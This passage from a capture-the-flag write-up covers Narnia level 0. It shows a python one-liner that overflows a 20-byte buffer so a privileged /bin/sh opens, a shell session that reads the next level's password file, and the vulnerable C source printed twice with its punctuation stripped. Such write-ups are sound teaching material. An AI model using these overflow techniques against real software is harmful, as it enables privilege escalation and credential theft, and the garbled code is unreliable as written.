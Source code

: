      reports Narnia image1 png 

Upon further thought into the reason for not receiving a shell  it came to mind that perhaps the shell is dying with the process of piping the python command into the narnia0 binary  It is possible that stdin is attached to this process and therefore the shell immediately dies  Appening  cat   to the end of the command proves to work  this is because cat   outputs stdin  

   highlight bash   
narnia0 narnia  narnia   python  c  print  A  20  xefxbexadxde   cat      narnia0 Correct val s value from 0x41414141    0xdeadbeef   
Here is your chance  buf  AAAAAAAAAAAAAAAAAAAA   
val  0xdeadbeef  
whoami  
narnia1  
cat  etc narnia pass narnia1  
efeidiedae
   endhighlight   

Commands are successfully being executed inside the  bin sh shell

Looking at the source code of the program  we can confirm that the aforementioned analysis of the binary was correct 

   highlight c   
 include  stdio h   
 include  stdlib h   
  
int main      long val 0x41414141    char buf 20     printf  Correct val s value from 0x41414141    0xdeadbeef n      printf  Here is your chance        scanf   24s   buf     printf  buf   sn  buf     printf  val  0x 08xn  val     if val  0xdeadbeef    
       setreuid geteuid   geteuid      
       system   bin sh     
       else         printf  WAY OFF    n          exit 1    
       return 0   
 
   endhighlight   

   highlight c   
    Source Code

 include  stdio h   
 include  stdlib h   
  
int main      long val 0x41414141    char buf 20     printf  Correct val s value from 0x41414141    0xdeadbeef n      printf  Here is your chance        scanf   24s   buf     printf  buf   sn  buf     printf  val  0x 08xn  val     if val  0xdeadbeef    
       setreuid geteuid   geteuid      
       system   bin sh     
       else         printf  WAY OFF    n          exit 1    
       return 0   
 
   endhighlight   

Narnia 1
        

Now with a shell as the narnia1 user  we have the necessary permissions to execute the next binary 
